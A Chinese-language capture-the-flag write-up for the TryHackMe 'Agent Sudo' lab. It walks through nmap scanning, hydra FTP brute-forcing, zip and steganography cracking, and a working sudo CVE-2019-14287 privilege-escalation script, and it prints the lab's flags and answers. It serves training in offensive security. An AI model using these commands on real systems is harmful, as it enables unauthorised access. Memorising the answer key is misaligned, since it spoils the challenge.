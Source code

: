 # sudo特工-wp-简单-tryhackme

## 枚举

>开放多少个端口？
``````
sudo nmap -Pn -A 10.10.196.189
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
``````
答案：3

>如何将自己重定向到秘密页面？

重定向页面有两个，user-agent是R和C  
通过R的界面猜测C的界面  
重定向C的界面：  
Attention chris,  
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!  
From,  
Agent R   
答案：user-agent
>代理名称是什么？
 

答案：chris


## 哈希破解和暴力破解
由于R说C的密码太脆弱，可以想到C的密码可以爆破  
爆破ftp的密码：  
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.74.222
>FTP密码

答案：crystal
>压缩文件密码
这个地方直接大力出奇迹，用john的工具zip2john破解
``````
zip2john 8702.zip > password.txt
john --wordlist=/usr/share/wordlists/rockyou.txt
``````
答案：alien
  
>steg password

文件内容：  
Agent C,  
We need to send the picture to 'QXJlYTUx' as soon as possible!  
By,  
Agent R 
妈的，QXJlYTUx居然是base64，没见过这么短的base64

答案：Area51
>另一位特工是谁（全名）？

需要用到steghide这个软件，这个软件是解隐写术的题的  
steghide extract -sf FILE(需要有密码，密码是Area51)  
解出messages.txt  
Hi james,  
Glad you find this message. Your login password is hackerrules!  
Don't ask me why the password look cheesy, ask agent R who set this password for you.  
Your buddy,  
chris  

答案：james
>SSH密码

答案：hackerrules


## 捕获用户标志

>什么是用户标志？
登陆后ls

答案：b03d975e8c92a7c04146cfa7a5a313c7
>照片中的事件叫什么？


## 权限提升

>升级的 CVE 编号 （格式：CVE-xxxx-xxxx）
sudo -l然后在google上搜索(ALL, !root) /bin/bash  

答案：CVE-2019-14287

>什么是根标志？

看下面的代码：  
``````
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
``````
主要做的操作就是：  
sudo -l > priv /把sudo -l的输出写入priv这个文件里  
cat priv | grep 'ALL' | cut -d ')' -f 2 > binary /把“看不懂思密达”输出到binary这个文件里  
"sudo -u#-1 "+ binary /把这个命令和binary的内容拼接（binary的内容实际上就是/bin/bash）  
cat /root/root.txt
答案：b53a02f55b57d4439e3341834d70c062
>（奖励）R 特工是谁？

To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

答案：DesKel